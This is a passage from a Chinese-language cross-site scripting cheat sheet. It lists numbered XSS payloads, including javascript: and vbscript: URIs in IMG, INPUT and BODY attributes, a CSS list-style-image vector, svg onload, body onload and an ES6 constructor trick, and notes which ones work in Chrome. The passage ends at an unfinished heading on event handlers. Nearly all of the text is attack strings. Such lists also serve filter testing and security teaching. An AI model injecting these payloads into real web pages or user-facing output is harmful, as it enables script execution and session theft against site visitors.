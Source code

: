 ### 2-33 INPUT 标签中设置 image（chrome 测试无效）

`<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">`

### 2-34 BODY 标签中设置 image（chrome 测试无效）

`<BODY BACKGROUND="javascript:alert('XSS')">`

### 2-35 IMG 标签的 Dynsrc 属性（chrome 测试无效）

`<IMG DYNSRC="javascript:alert('XSS')">`

`（注意：该属性只在IE和Netscape中支持，img dynsrc可以用来插入各种多媒体，格式可以是Wav、Avi、AIFF、AU、MP3、Ra、Ram等等）`

### 2-36 IMG 标签的 lowsrc 属性（chrome 测试无效）

`<IMG LOWSRC="javascript:alert('XSS')">`

`（注意：该属性用于设置低分辨率下的图片）`

### 3-37 列表样式设置图片（chrome 测试无效）

使用 JavaScript 伪协议在列表 List 中嵌入图片，这种情况只在 IE
浏览器中有用

`<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>`

### 2-38 图片标签中使用 VBscript 片（chrome 测试无效）

`<IMG SRC='vbscript:msgbox("XSS")'>`

`（注意：在 IE 中除了支持 JavaScript 外，还支持 VBScript,但是 Firefox、Chrome 中是不支持 VBScript 的）`

### 2-39 Livescript（chrome 测试无效,仅限旧版本的 Netscape 浏览器）

`<IMG SRC="livescript:[code]">`

`（注意：LiveScript是JavaScript语言的前身）`

### 2-40 Svg 对象标签 (chrome 测试生效)

`<svg/onload=alert('XSS')>`

### 2-41 es6 (chrome 测试无效)

`Set.constructor`alert\x28document.domain\x29\`\`

### 2-42 body 标签 (chrome 测试生效)

`<BODY ONLOAD=alert('XSS')>`

### 2-43 事件处理程序
